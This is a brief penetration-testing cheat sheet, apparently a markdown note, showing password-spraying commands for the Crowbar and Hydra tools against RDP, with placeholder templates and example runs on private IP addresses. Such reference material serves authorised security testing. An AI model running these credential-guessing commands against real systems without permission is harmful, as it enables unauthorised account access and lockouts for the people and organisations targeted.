 -- -
Different ways (tools) to perform password spraying.
### Crowbar
```bash
crowbar -b <protocol> -s <ip/range> -U <userfile> -c '<passwd>'
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
### Hydra
```bash
hydra -L <userlist> -p '<passwd>' <ip> <protocol>
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```